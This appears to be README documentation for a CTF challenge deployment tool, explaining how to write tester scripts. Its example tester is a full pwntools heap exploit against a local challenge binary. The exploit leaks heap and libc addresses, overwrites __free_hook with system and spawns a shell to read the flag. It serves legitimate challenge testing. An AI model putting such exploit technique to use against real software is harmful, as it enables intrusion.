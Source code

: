# How to write test script?

If you upload challenge zip file, **papaWhaled** firstly do some docker process, and then test to check whether challenge is deployed well or not. 

This test would be done by following command, where `[port]` and `[flag]` are passed by papaWhaled, and `[test]` is decided by your included `props.json`.

    ./[test] [port] [flag]

If return value of this command is **False(0)**, this challenge is thought to be well deployed, else it is failed to be deployed.

*Because it only cares return value, test is not need to be script. It can be whatever that returns. (i.e, ELF)*

In sum, here are the things that you should consider before write/make your **tester**.

1. Must include shebang(`#!`) if your `[test]` is not common executable like ELF.
2. Can grab the port and flag by parsing the argvs.
3. Must return **False** if test is success, else return **True**. (You can check it by evaluating the flag)
4. If uploaded challenge is deployed as **auto**, flag would be always at `/home/user/flag`.
5. If your test succeeds stochatically, test several times on your script. *Maybe this feature would be added soon.*

Here is the example.

    #!/usr/bin/python <= Include shebang, or it can crush!
    from pwn import *
    import sys
    
    #Grab the port and flag.
    port = sys.argv[1]
    flag = sys.argv[2]
    
    p=remote("localhost",port)
    
    sa = lambda x,y : p.sendafter(x,y)
    cho = lambda x : sa("Choice",str(x))
    go = lambda : p.interactive()
    
    def add(size,data):
        cho(1)
        sa("size",str(size))
        sa("data",data)
    
    def edit(idx,size,data):
        cho(2)
        sa("index",str(idx))
        sa("size",str(size))
        sa("data",data)
    
    def delete(idx):
        cho(3)
        sa("index",str(idx))
    
    def edit_name(c,name):
        cho(4)
        sa("edit",c)
        if c=='Y':
            sa("name",name)
        else:
            p.recvuntil("Name: ")
            return p.recvline()[:-1]
    
    sa("name","\x00")
    
    for i in range(3):
        add(0x50,str(i)*0x50)
    add(0x40,"/bin/sh\x00")
    add(0x40,"/bin/sh\x00")
    for i in range(16):
        print i
        add(0x40,str(i)*0x40)
    
    hb = u64(edit_name('N',1).ljust(8,'\x00'))-0x790-0x140
    print hex(hb)
    
    for i in range(7):
        edit_name('Y',p64(0x602120)+p64(0)+p64(0)+p64(0xc1))
        delete(20)
    
    edit_name("Y",p64(0x602120)+p64(0)+p64(0)+p64(0xc1)+"A"*0xb0+p64(0)+p64(0x21)+p64(0)*3+p64(0x21))
    delete(20)
    edit_name("Y","A"*0x20)
    p.recvuntil("A"*0x20)
    lb = u64(p.recvline()[:-1]+'\x00'*2) - 0x3ebca0
    fh = lb + 0x3ed8e8
    system = lb + 0x4f440
    
    edit_name('Y',p64(hb+0x250+0x10))
    delete(0)
    delete(1)
    delete(20)
    delete(3)
    add(0x50,p64(fh))
    add(0x50,"FAKE")
    add(0x50,p64(fh))
    add(0x50,p64(system))
    
    delete(4)
    
    #Check the test result and return.
    p.sendline("cat /home/user/flag")
    p.recv()
    if flag in p.recv(4096):
        sys.exit(False)
    else:
        sys.exit(True)